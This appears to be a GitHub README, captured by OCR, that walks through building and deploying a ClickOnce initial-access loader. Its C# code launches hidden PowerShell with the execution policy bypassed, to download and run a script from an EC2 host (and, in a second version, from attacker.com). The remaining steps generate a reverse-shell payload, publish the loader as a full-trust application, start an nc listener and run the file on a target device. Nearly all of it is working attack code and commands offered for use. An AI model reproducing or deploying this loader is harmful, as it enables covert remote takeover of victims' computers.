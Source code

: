 ## 1. Create lscript.application

1. Go to Visual Studio Community edition to create the loader.
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<Base64_Download_Command>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```
5. Replace the above Base64 output to <Base64_Download_Command> on the lscript.cs file.
6. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
7. Create a Powershell base64 payload, copy and save it in the EC2 instance.
8. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Run sudo **python -m http.server 9999**
2. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
3. Start the listener with ```nc -lnvp 9999```
4. Execute the _lscript.application_ file on the target device.
5. Check the listener.


```
# Unencoded lscript.cs file

using System.Diagnostics;

static class Program {
    [System.STAThread] // (Use STA if a GUI/WinForms app; not needed for pure console)
    static void Main() {
        // Prepare PowerShell command (e.g., reverse shell or arbitrary script)
        string psArgs = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass "
                      + "-Command \"Invoke-WebRequest -Uri 'http://attacker.com/payload.ps1' -OutFile 'payload.ps1'; "
                      + "powershell -ExecutionPolicy Bypass -File 'payload.ps1'\"";
        // Configure process start info to launch PowerShell
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,   // no new window for PowerShell
            UseShellExecute = false  // required for CreateNoWindow
        };
        Process.Start(psi);
    }
}
```

